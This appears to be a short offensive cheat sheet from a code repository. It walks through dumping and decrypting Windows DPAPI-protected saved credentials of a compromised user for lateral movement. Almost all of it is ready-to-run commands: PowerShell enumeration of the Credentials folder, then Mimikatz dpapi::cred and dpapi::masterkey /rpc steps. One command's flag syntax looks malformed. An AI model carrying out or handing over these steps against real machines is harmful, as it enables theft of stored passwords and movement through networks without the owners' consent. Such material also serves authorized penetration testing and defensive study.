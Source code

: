 # DPAPI Credentials Dumping and Decrypting

### Steps:

## 1) Enumerate the credentials folders of our compromised user:

 - Get-ChildItem -Hidden C:\Users\USER\AppData\Roaming\Microsoft\Credentials\ (If true positive, you should see some numeric valus like: 84F1CAEEBF466550F4967858F9353FB4 as an example)

## 2) Transfer and run Mimikatz to ckech more details of the credentials we found

 - mimikatz# dpapi::cred /in:C:\Users\USER\AppData\Roaming\Microsoft\credentials\XXXXXXXXXXX (From all the data we dumped, we need THE GUID MASTERKEY for now)

## 3) Find the SID number of our compromised user

 - C:\Users\USER\appdata\roaming\microsoft\protect

 - dir

## 4) Change the SID and GUID MASTERKEY to your own

 - mimikatz# dpapi::masterkey /in:C:\Users\USER\appdata\roaming\microsoft\protect\SID\GUID_MASTERKEY /rpc

## 5) Decrypt the credentials for lateral movement

 - dpapi::cred /in:C:\Users\USER\AppData\Roaming\Microsoft\credentials\XXXXXXXXXXXXX /guidMasterkey::GUID_MASTERKEY
